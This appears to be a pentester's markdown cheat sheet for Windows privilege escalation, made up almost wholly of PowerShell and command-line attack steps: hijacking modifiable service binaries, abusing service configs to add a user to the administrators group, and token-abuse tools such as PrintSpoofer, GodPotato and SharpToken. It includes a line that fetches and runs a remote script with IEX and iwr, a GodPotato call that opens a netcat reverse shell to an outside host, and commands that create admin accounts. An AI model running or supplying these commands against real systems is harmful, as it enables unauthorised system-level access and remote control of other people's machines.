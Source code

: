 ### LOLBIN
```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

# Binary Hijacking
## === Modifiable Service Binaries ===
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls "C:\xampp\mysql\bin\mysqld.exe"
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
net stop mysql
shutdown /r /t 0 

# tasks
schtasks /query /fo LIST /v
Get-ScheduledTask

## Watch
wget https://raw.githubusercontent.com/markwragg/PowerShell-Watch/master/Watch/Public/Watch-Command.ps1
Get-Process -ErrorAction SilentlyContinue | Watch-Command -Difference -Continuous -Seconds 20

#checkcmdline
IEX (iwr 'http://10.10.10.205/check_cmdline.ps1') 

# Services
# === Modifiable Services ===
sc config WindscribeService binpath="cmd /c net localgroup administrators my /add"
sc stop WindscribeService
sc start WindscribeService
```
### token
```powershell
# PrintSpoofer
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe

# GodPotato
cd /usr/share/windows-resources/binaries/
.\GodPotato-NET4.exe -cmd "C:\Windows\Temp\nc.exe 10.10.14.83 9999 -e cmd"

# SharpToken
cd /usr/share/windows-resources/binaries/
.\SharpToken.exe list_token
.\SharpToken.exe execute "NT AUTHORITY\SYSTEM" cmd true
.\SharpToken.exe add_user admin Abcd1234! Administrators
```
### SePriv
#### Full Power
https://github.com/itm4n/FullPowers
